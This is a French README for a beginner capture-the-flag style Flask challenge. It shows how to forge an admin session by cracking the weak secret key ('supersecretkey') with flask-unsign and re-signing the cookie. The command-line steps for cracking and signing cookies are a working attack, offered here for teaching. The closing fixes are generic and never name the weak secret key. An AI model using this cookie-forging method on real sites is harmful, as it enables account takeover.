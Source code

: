 # Flask Session

## Prérequis

### Environnement Python

- **Python 3.x** : [Télécharger Python](https://www.python.org/downloads/)
- **Flask** : Framework web léger pour Python

### Installation des Dépendances

1. **Créer un environnement virtuel** (optionnel mais recommandé) :

    ```bash
    python3 -m venv venv
    source venv/bin/activate  # Sur Windows : venv\Scripts\activate
    ```

2. **Installer Flask** :

    ```bash
    pip install Flask
    ```

## Démarrage du Projet

1. **Clonez ce dépôt** sur votre machine :

    ```bash
    git clone https://github.com/tyki6/tiktok-initiation-cyber.git
    cd tiktok-initiation-cyber
    ```

2. **Lancez le serveur Flask** :

    ```bash
    python main.py
    ```

3. **Accédez à l'application** via votre navigateur à l'adresse suivante : `http://127.0.0.1:5000/`.

## Structure du Projet

### Routes Disponibles

- **Route `/`** : Page d'accueil qui affiche un message en fonction du rôle de l'utilisateur.

### But du challenge

Ce connecter sur / en tant qu'admin par defaut vous serez avec le username test.

### Exploitation de la Faille et Correction

Voici comment vous pouvez exploiter cette faille :

1. **Connectez-vous** à `/`.

2. Récupéré le token de session
    - Ouvrez les outils de développement de votre navigateur (`F12` sur Chrome/Firefox).
    - Allez dans l'onglet **Application** (ou **Storage**).
    - Sous la section **Cookies**, trouvez le cookie `session`.

3. installer **flask-unsign** :

    ```bash
    pip install flask-unsign flask-unsign[wordlist]
    ```

4. trouver **la clé** qui sert à chiffrer les tokens de session:

    ```bash
    flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6InRlc3QifQ.Zrtyug.azCH0EatqpPnsr7648NZJLhhzok'
    ```

5. une fois la clé obtenu: **supersecretkey**, créer un nouveau token admin

    ```bash
    flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'
    ```

6. utilisé le nouveau token dans votre session flask
    - Ouvrez les outils de développement de votre navigateur (`F12` sur Chrome/Firefox).
    - Allez dans l'onglet **Application** (ou **Storage**).
    - Sous la section **Cookies**, trouvez le cookie `session`.
    - Changez la valeur avec le nouveau cookie.

## Corriger la Faille

### Solution 1 : Validation des Données d'Entrée

Il est important de ne jamais faire confiance aux données provenant des requêtes utilisateur. Vous devez valider et nettoyer toute donnée avant de l'utiliser pour modifier l'état de la session.

### Solution 2 : Utilisation de Jetons de Session Sécurisés

Une approche sécurisée consiste à utiliser des jetons de session qui ne peuvent pas être modifiés par l'utilisateur et qui sont gérés de manière sécurisée côté serveur.